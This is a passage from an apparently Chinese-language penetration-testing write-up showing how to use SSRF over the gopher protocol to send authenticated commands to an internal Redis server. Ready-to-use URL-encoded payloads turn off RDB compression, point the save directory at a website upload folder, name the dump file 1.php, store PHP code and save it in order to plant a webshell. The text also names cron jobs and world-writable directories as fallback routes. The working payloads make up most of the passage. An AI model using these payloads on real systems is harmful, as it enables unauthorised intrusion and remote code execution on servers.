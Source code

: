 那么这里需要认证的`config get dir`转换为`gopher`协议就是

```
gopher://127.0.0.1:6379/_*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*3%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aget%0d%0a$3%0d%0adir%0d%0a
```

后面必须再加一个`quit`（`*1%0d%0a$4%0d%0aquit%0d%0a`），否则会一直连接，不退出，也就无法返回结果   
发送前再把`_`后面的所有内容再`url`编码一次，发送并得到结果  

![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV05rhBGNowxTcGrI05fRlIkqdOZKAia2cTC1JawHYh31apTzIg1H4YhFibg/640?wx_fmt=png)

现在就可以通过`Redis`往目标网站写一个`webshell`了  

1.  首先需要关闭`RDB`压缩，`Redis`默认开启，如果不关闭，字符串可能会被压缩出现乱码导致`shell`不能正常运行：`*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$14%0d%0ardbcompression%0d%0a$2%0d%0ano%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a`   
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV05ghbI6VlibjTrzGhUevVgqX0JiaCFjXsCibTXvJhnV9phmXnyvxR5ll5kQ/640?wx_fmt=png)
    
    又开始有回显了
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV0580ZIzedCTAibIUlamvX6fXIh8ibKsc0aJQnibJeNSBRnq1zWgWPjVR0Zg/640?wx_fmt=png)
    
2.  设置保存位置：`*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$35%0d%0a/www/wwwroot/webgz/up_files/avatar/%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a` 
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV05U1FHR3RRaarnTTgE4Ns8ZibsugBMasicoEiblhN2h6HFMl4iczUumQv5NQ/640?wx_fmt=png)
    
    > 在设置保存路径之前，最好先获取一下原本的保存路径，写入`shell`之后恢复回去：`*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*3%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aget%0d%0a$3%0d%0adir%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a`
    
3.  设置文件名：`*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$5%0d%0a1.php%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a` 
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV05icBibjnAkibnpLswcE65UiaNicBgNFApCiaJU6ou3gH3jG9MeACpFDJsotrg/640?wx_fmt=png)
    
4.  写入一个`key`，内容为`wenshell`：`*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0as%0d%0a$27%0d%0a%0a%0d%0a<?php phpinfo();?>%0d%0a%0a%0d%0a%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a` 
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV05W670yYawq4nX4a3Tdem9gbBklwvjGiaeobtvrs9iaJRoKD3Z4ia1aIeCw/640?wx_fmt=png)
    
5.  保存：`*2%0d%0a$4%0d%0aAUTH%0d%0a$8%0d%0aqq123456%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a` 
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BkM2kb8AljhjQhe4bSPJt3GmcNAUBV050xPdtjlc0u7xENPORhAPLjBMUHxdWDeZSTkibU140o0gjicuo5tvs0Kw/640?wx_fmt=png)
    

发现没有写进去，目标机器为`Linux`，猜测是权限的问题（可能网站路径都是`755`，而`redis`权限想写进去最后一位权限得是`7`(读写执行)、`6`(写执行)）   
那么这个时候有几个选择：

*   试一下定时任务有没有写权限（测试没权限）
    
*   多找几个目录试试看有没有`777`权限目录（没找到）
    
*   在源码里搜索一下是否有`chmod`、`mkdir`等方法赋予了`777`权限
    